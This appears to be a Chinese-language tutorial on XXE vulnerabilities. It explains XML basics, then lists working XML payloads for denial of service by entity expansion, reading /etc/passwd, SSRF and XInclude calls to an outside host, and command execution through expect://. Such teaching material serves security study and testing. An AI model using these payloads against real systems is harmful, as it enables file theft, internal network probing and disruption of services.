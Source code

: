 


# XXE漏洞
当允许引用外部实体时，攻击者可以构造恶意的XML文件内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XEE攻击，只有在服务器有回显或则报错的基础上才能使用XXE漏洞来读取服务器的文件，但是也可以通过bind XXE的方式实现攻击。


## XML基础

**html 和 xml 的区别**

html 是用来显示数据的； xml 是用来描述数据、存放数据的，可以作为持久化介质。 Html 将数据和显示结合在一起，在页面中把这数据显示出来； xml 则将数据和显示分开。 XML 被设计用来描述数据，其焦点是数据的内容。 HTML 被设计用来显示数据，其焦点是数据的外观

XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。 XML 的语法规范由 DTD （Document Type Definition）来进行控制。


语法

XML 文档在开头有 <?xml version="1.0" encoding="UTF-8" standalone="yes"?> 的结构，这种结构被称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，但是必须放在文档开头。

除了可选的开头外，XML 语法主要有以下的特性：

所有 XML 元素都须有关闭标签
XML 标签对大小写敏感
XML 必须正确地嵌套
XML 文档必须有根元素
XML 的属性值需要加引号
另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。



## 攻击方式

### 拒绝服务攻击

```xml
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。

### 读取文件

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

### 读取内网文件  SSRF(服务器端请求伪造)

```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>
```

### RCE 

```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

###  XInclude

```xml
<?xml version='1.0'?>
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>
```




[参考](https://websec.readthedocs.io/zh/latest/vuln/xxe.html)

[ssrf](https://xz.aliyun.com/t/2115)